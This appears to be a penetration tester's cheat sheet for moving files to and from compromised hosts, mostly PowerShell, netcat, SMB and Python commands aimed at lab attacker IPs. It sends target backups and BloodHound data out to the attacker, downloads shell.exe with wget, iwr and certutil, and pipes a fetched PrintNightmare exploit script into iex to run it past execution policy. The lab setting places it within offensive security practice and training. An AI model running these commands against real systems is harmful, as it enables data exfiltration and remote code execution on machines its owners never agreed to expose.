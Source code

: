 ## from windows back to my kali linux
#### Upload Server
on kali, create file named upload_server.py containing:
```python
# save as upload_server.py and run: python3 upload_server.py
import http.server
import socketserver

PORT = 8000

class FileUploadHandler(http.server.SimpleHTTPRequestHandler):
    def do_POST(self):
        length = int(self.headers['Content-Length'])
        data = self.rfile.read(length)
        filename = self.headers.get('X-Filename', 'uploaded.zip')
        with open(filename, 'wb') as f:
            f.write(data)
        self.send_response(200)
        self.end_headers()

with socketserver.TCPServer(("", PORT), FileUploadHandler) as httpd:
    print(f"Serving upload handler on port {PORT}")
    httpd.serve_forever()
```
run it:
```bash
python3 upload_server.py
```
from the windows target, paste:
```powershell
$File = "C:\Users\f.frizzle\Desktop\wapt-backup-sunday.7z"
$Bytes = [System.IO.File]::ReadAllBytes($File)
$Client = New-Object Net.WebClient
$Client.Headers.Add("X-Filename", "wapt-backup-sunday.7z")
$Client.UploadData("http://10.10.14.207:8000", "POST", $Bytes)
```

#### TCP “push” with Netcat + PowerShell
on kali:
```bash
ncat -lvp 9001 > BloodHound.zip
```
on windows target in powershell:
```powershell
# Adjust path/filename as needed
$zip = "C:\Users\f.frizzle\20250419221420_BloodHound.zip"

# Open a TCP connection back to your Kali and shove the bytes across
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.207", 9001)
$stream = $client.GetStream()
$bytes  = [IO.File]::ReadAllBytes($zip)
$stream.Write($bytes, 0, $bytes.Length)
$stream.Close()
$client.Close()
```
- As soon as that PowerShell finishes, your Kali `ncat` will exit and `BloodHound.zip` will be complete

#### Mapping SMB Share
on kali run
```bash
smbserver.py smb share/ -smb2support
```
on windows, run:
```powershell
net use \\10.21.90.250\smb
```
then copy the file
```powershell
copy .\mimi_allyouneed101.txt \\192.168.49.109\smb\mimi_allyouneed101.txt
```


#### LOL
If target has SMB share has read,write can copy file on machine to that location, and download it with `smbclient` or `smbclient.py`

---
## From kali to windows
start python server in directory with file to upload:
```bash
python -m http.server 80
```
#### wget
```powershell
wget http://10.10.14.169/shell.exe -o s.exe
```
#### iwr
```powershell
iwr -uri http://10.10.14.169/shell.exe -OutFile s.exe
```
#### certutil
```powershell
certutil -split -urlcache -f http://192.168.49.109/chkaccess.exe C:\\Users\\rudi.davis\\Desktop\\chkaccess.exe
```

if wget doesn't work because IE engine isn't available, use `curl` with parameter:
```powershell
curl 10.10.14.6/CVE-2021-1675.ps1 -UseBasicParsing | iex
```
- `-UseBasicParsing` allows the file to come back without IE
- `iex` imports (or runs) the script 
	- useful if can't import/run a script when transferred via other means because of execution policy and `powershell -ep bypass` doesn't work

---

### NC from linux target to host
```bash
nc -lnvp 443 > 16162020_backup.zip
```
- run on kali
```bash
md5sum 16162020_backup.zip
```
- checksum on remote machine before transferring
```bash
cat 16162020_backup.zip | nc 10.10.14.191 443
```
- on remote machine to initiate the transfer
```bash
md5sum 16162020_backup.zip
```
- checksum on kali to make sure matches